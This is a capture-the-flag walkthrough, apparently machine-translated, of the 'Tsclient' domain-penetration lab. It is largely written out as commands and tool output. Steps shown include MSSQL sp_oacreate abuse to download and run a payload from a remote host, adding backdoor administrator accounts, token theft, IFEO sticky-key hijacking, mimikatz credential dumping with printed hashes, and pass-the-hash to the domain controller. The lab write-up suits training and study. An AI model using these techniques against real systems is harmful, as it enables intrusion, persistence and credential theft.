# Spring and Autumn Cloud Mirror & Tsclient

## Target Introduction

`Tsclient` is a shooting range environment with medium difficulty. Completing this challenge can help players understand the technical methods of proxy forwarding, intranet scanning, information collection, privilege escalation and lateral movement in intranet penetration, strengthen their understanding of the core authentication mechanism of the domain environment, and master some interesting technical points in the domain environment penetration. There are `3`flags` in this shooting range, distributed in different target machines.

## Attack Process

Use `Nmap` to scan the given IP, find that there is a `MSSQL` service, use `fscan` for detection, and find that there is a weak password `sa`/`1qaz!QAZ`.



```
(icmp) Target 39.98.122.85 is alive
[*] Icmp alive hosts len is: 1
39.98.122.85:80 open
39.98.122.85:1433 open
[*] alive ports len is: 2
start vulscan
[*] WebTitle: http://39.98.122.85 code:200 len:703 title:IIS Windows Server
[+] mssql:39.98.122.85:1433:sa 1qaz!QAZ
```

Use `sp_oacreate` to launch the horse, and then directly raise the authority to `NT AUTHORITY\SYSTEM`.

````sql
# determine the status of SP_OACREATE, and the existence returns 1
select count(*) from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE'

# Enable SP_OACREATE
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'Ole Automation Procedures', 1;
RECONFIGURE WITH OVERRIDE;

# Copy certutil.exe to the C:\Windows\Temp\ directory and rename it
declare @o int exec sp_oacreate 'scripting.filesystemobject', @o out exec sp_oamethod @o, 'copyfile',null,'C:\Windows\System32\certutil.exe' ,'C:\Windows\Temp\h3.exe';

# Download Mazi remotely
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'C:\Windows\Temp\h3.exe -urlcache -split -f "http://192.168.21.42:9999/1.exe" C:\Windows\Temp\1.exe'

# Use forfiles to run horses
declare @runshell INT Exec SP_OACreate 'wscript.shell',@runshell out Exec SP_OAMeTHOD @runshell,'run',null,'forfiles /c C:\Windows\Temp\1.exe';
```



Add the backdoor user, open the remote desktop, and read `flag01.txt` in the `C:\Users\Administrator\flag` directory: `flag{5f653eba-dc89-4137-a716-8b25e9623a68}`.

```bash
net user Hacker qwer1234! /add
net localgroup administrators hacker /add
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```



Then use the same method to download `fscan` to collect network segment information.

```
(icmp) Target 172.22.8.18 is alive
(icmp) Target 172.22.8.15 is alive
(icmp) Target 172.22.8.31 is alive
(icmp) Target 172.22.8.46 is alive
[*] Icmp alive hosts len is: 4
172.22.8.46:445 open
172.22.8.18:1433 open
172.22.8.31:445 open
172.22.8.15:445 open
172.22.8.18:445 open
172.22.8.46:139 open
172.22.8.31:139 open
172.22.8.15:139 open
172.22.8.18:139 open
172.22.8.31:135 open
172.22.8.46:135 open
172.22.8.15:135 open
172.22.8.18:135 open
172.22.8.46:80 open
172.22.8.18:80 open
172.22.8.15:88 open
[*] alive ports len is: 16
start vulscan
[*] NetInfo:
[*]172.22.8.31
   [->]WIN19-CLIENT
   [->]172.22.8.31
[*] NetInfo:
[*]172.22.8.46
   [->]WIN2016
   [->]172.22.8.46
[*] NetInfo:
[*]172.22.8.18
   [->]WIN-WEB
   [->]172.22.8.18
   [->]2001:0:348b:fb58:c1f:38ed:d89d:85aa
[*] NetBios: 172.22.8.31 XIAORANG\WIN19-CLIENT
[*] NetBios: 172.22.8.15 [+] DC:XIAORANG\DC01
[*] NetInfo:
[*]172.22.8.15
   [->]DC01
   [->]172.22.8.15
[*] NetBios: 172.22.8.46 WIN2016.xiaorang.lab Windows Server 2016 Datacenter 14393
[*] WebTitle: http://172.22.8.18 code:200 len:703 title:IIS Windows Server
[*] WebTitle: http://172.22.8.46 code:200 len:703 title:IIS Windows Server
[+] mssql:172.22.8.18:1433:sa 1qaz!QAZ
```

According to the prompt `Maybe you should focus on user sessions...`, check the current user session and find that there is user `John` and it is also `RDP` that is remote to the current host.





Run the command `netstat` to view the connection information and find that it was connected from the intranet `172.22.8.31 XIAORANG\WIN19-CLIENT` host.



`Tsclient` is a machine name that appears in the remote computer "Neighbor" when connecting to a remote computer through a remote desktop, and is actually assigned to the local machine to the remote computer. The attack methods against the `RDP` protocol can be found in [Use of the RDP protocol in Red and Blue Confrontation] (https://www.geekby.site/2021/01/%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E4%B8%ADrdp%E5%8D%8F%E8%AE%AE%E7%9A%84%E5%88%A9%E7%94%A8)

Try to simulate the token of the `John` user and use the tool [SharpToken](https://github.com/BeichenDream/SharpToken). You also need to install `.NET Framework 3.5` ​​here, but it still executes it but it still doesn't respond.



```bash
SharpToken.exe execute "WIN-WEB\John" cmd true
```

Attempting `MSF`' module incognito` has not succeeded, but it can steal the specified process, here the process of the `John` user is stealing.

```bash
# Load incognito
load incognito
# List tokens
list_tokens -u

# Stealing a specified process
steel_token pid
# Return to the previous token
rev2self
```

!
[](./images/8.png)

I found that there is a shared folder. Read it and there is a sensitive file inside. After viewing, I get a credential and a prompt.

```
xiaorang.lab\Aldrich:Ald@rLMWuy7Z!#

Do you know how to hijack Image?
```



The prompt indicates that IFEO hijacking is to be used, that is, mirror hijacking. When trying to log in, it prompts the user's password has expired. Use `smbpasswd` to modify the password.



```bash
python3 smbpasswd.py xiaorang.lab/Aldrich:'Ald@rLMWuy7Z!#'@172.22.8.15 -newpass 'H3rmesk1t@666'
```



I found that I could only use `172.22.8.15` to remotely modify my password, but when I log in, I showed that I had no permissions, so I could only log in to `172.22.8.46`.



But only the permissions of ordinary users, combined with the prompts, IFEO hijacking is used to modify the registry.

```powershell
get-acl -path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" | fl *
```

I found that `NT AUTHORITY\Authenticated Users` can modify the registry, that is, all users who log in with their account and password can modify the registry.



Take advantage of this property, modify the registry and use sticky keys to hit `IFEO` hijack.

```powershell
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\Windows\System32\cmd.exe"
```



The Start menu locks the user. After turning on the sticky key, press `shift` five times and get `Shell`.



Continue to add the backdoor user, then go up remotely, and read `flag02.txt` in the `C:\Users\Administrator\flag` directory: `flag{daf4521b-3434-4d3a-aa9b-71e53e0c6079}`.

```bash
net user hacker2 qwer1234! /add
net localgroup administrators hacker2 /add
```




Query the information in the domain and found that `WIN2016$` is in the domain management group, that is, the machine account can be passed to the domain control `Hash`.

```bash
net group "domain admins" /domain
```



Use the previous IFEO to hijack the Shell with SYSTEM permissions to launch on MSF.



Then use `mimikatz` to grab `Hash`.

```bash
meterpreter > kiwi_cmd sekurlsa::logonpasswords

......
Authentication Id : 0 ; 996 (00000000:000003e4)
Session: Service from 0
User Name: WIN2016$
Domain : XIAORANG
Logon Server: (null)
Logon Time: 2023/12/1 21:05:27
SID: S-1-5-20
        msv:
         [000000003] Primary
         * Username: WIN2016$
         * Domain: XIAORANG
         * NTLM: 23d4fee9803cc89813fd6bbf00e2c939
         * SHA1: 6e5d40d21b3eb8be4e263524d3f0494f07f82cdd
        tspkg:
        wdigest:
         * Username: WIN2016$
         * Domain: XIAORANG
         * Password : (null)
        kerberos:
         * Username: win2016$
         * Domain: XIAORANG.LAB
         * Password : 59 a6 05 a5 d5 f3 6d 98 16 7b 8b a4 df dd e2 40 b5 d4 9c 19 43 e8 e7 f6 d2 56 ea 24 2f e6 73 fe 2f 9e 43 80 e8 d6 78 ad 61 c4 56 a4 d3 62 86 a8 93 9e 75 4a 1f f8 36 b7 45 89 18 e6 31 e1 82 07 7f e6 71 fe df 34 b4 f4 fd 95 44 b6 bd bb b8 51 a7 24 3d f0 16 ce 57 ae c7 23 a4 71 a0 36 8b d2 01 26 e9 e8 00 89 23 b3 7e d3 10 7d 0d 45 d2 6a a9 2d 6c 01 c8 94 77 83 cd 89 dd 32 72 19 c7 92 e2 06 23 6c fd 3f 52 a2 e2 0a 43 e1 c2 2b fb 3d 56 f8 e5 b6 da e6 89 e2 72 3a ce 59 b3 49 93 d0 51 01 63 07 66 40 71 2c 5d 25 79 c8 98 3b 49 77 cc 7a c8 98 60 51 03 0d dc a7 05 53 84 8b 0b 7f cb cf 8f fb 39 e6 dc e5 09 2a 83 27 d3 f6 9b b4 cc 92 69 68 cd c3 e9 11 c4 8e 9b 96 fe 5d 1b 6c 73 6d b8 48 3a 52 fe 32 f5 25 89 25 50 bb 36 f9
        ssp:
        credman:
......
```

Obtain the NTML of the machine account in the domain, and then use `mimikatz` to inject the `Hash` into the `lsass` process of the machine account, then horizontally to `172.22.8.15`, and read `flag03.txt` in the `C:\Users\Administrator\flag` directory: `flag{d9891234-e256-4b49-8b71-8f007d381be1}`.

```bash
privilege::debug
sekurlsa::pth /user:WIN2016$ /domain:xiaorang.lab /ntlm:23d4fee9803cc89813fd6bbf00e2c939
```

